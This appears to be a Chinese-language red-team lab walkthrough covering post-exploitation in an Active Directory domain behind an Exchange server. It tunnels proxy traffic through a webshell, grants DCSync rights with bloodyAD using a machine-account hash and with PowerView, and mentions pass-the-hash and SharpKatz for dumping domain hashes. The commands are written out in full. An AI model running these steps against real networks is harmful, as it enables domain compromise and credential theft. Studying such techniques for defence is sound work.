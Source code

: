 正常情况下，exchange服务器是处于不出网的环境中，而当我们拿到webshell的说话，无法反弹shell到自己的工具，所以需要通过webshell流量搭建代理隧道。

使用Chunk-Proxy工具即可，将代理文件上传到web目录中

java -jar v1.10.jar .net 1088 [https://192.168.52.139/aspnet\_client/proxy.aspx](https://192.168.52.139/aspnet_client/proxy.aspx)

![](https://cdn.nlark.com/yuque/0/2023/png/21953116/1689515812728-640d0639-6e4d-46f1-ae4b-cbe4cdf59888.png)

发现已经成功访问到内网网段

![](https://cdn.nlark.com/yuque/0/2023/png/21953116/1689515933500-a61e154d-d549-4b6c-adba-9bbc0101a837.png)

#### 赋予普通用户dcsync权限

使用工具bloodyAD直接远程赋予即可。

> python bloodyAD.py -d vvvv1.com -u EXCHANGE-2016$ -p :a377e26f4118ba88ce1af6a4f8ac9daf --host 10.10.10.10 add dcsync man03

![](https://cdn.nlark.com/yuque/0/2023/png/21953116/1689516589612-007ab3b9-f48e-4942-8433-a023eefe3673.png)

![](https://cdn.nlark.com/yuque/0/2023/png/21953116/1689516621144-a637efca-8d36-48b5-a5b0-19b08b72ae79.png)

**使用命令行给用户添加dcsync权限**

通过加载Powershell渗透框架下的PowerView.ps1脚本实现。

> Powershell -ExecutionPolicy Bypass
> 
> Import-Module .\\PowerView.ps1
> 
> Add-DomainObjectAcl -TargetIdentity "DC=vvvv1,DC=com" -PrincipalIdentity man03 -Rights DCSync -Verbose

经过测试，域控的机器账户并没有授予其他人dcsync服务的权限。

![](https://cdn.nlark.com/yuque/0/2023/png/21953116/1688567983258-c8e3354c-ff07-418a-b540-bcd318543e8f.png)

但是域管理员账户是拥有授予其他人dcsync服务的权限。

![](https://cdn.nlark.com/yuque/0/2023/png/21953116/1688568176153-f0f65aa0-b03a-4fab-aa4c-37d2ee25b139.png)

![](https://cdn.nlark.com/yuque/0/2023/png/21953116/1688562143937-76bd748c-e3cc-4410-bc52-b4bfc0072d62.png)

发现man03已经被添加dcsync权限了。

**删除man03的dcsync权限**

> Remove-DomainObjectAcl -TargetIdentity "DC=vvvv1,DC=com" -PrincipalIdentity man03 -Rights DCSync -Verbose

发现已经删除

![](https://cdn.nlark.com/yuque/0/2023/png/21953116/1688562276530-c92975ee-ba86-4318-b93d-5e3d20a85352.png)

赋予dcsync权限后，只需要使用hash传递将对应账户注入到当前lsass进程中,然后使用sharpkatz就可以远程导出域hash了。
